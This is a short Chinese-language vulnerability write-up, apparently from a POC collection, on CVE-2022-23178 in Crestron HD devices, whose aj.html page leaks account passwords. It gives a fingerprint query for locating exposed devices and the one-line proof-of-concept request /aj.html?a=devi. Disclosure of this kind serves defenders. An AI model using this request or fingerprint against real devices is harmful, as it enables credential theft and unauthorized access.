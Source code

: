 # Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

## 漏洞描述

Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

## 漏洞影响

<a-checkbox checked>Crestron HD等系列设备</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Crestron-HD-RX-201-C-E"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1644758503441-dca2357a-9bc4-48fd-a5f2-b30f3db71ed3.png)

验证POC

```javascript
/aj.html?a=devi
```

![img](../../../.vuepress/public/img/1644758524287-912c0410-f3fd-4ad7-a4cf-aa47782a44ee.png)



若有收获，就点个赞吧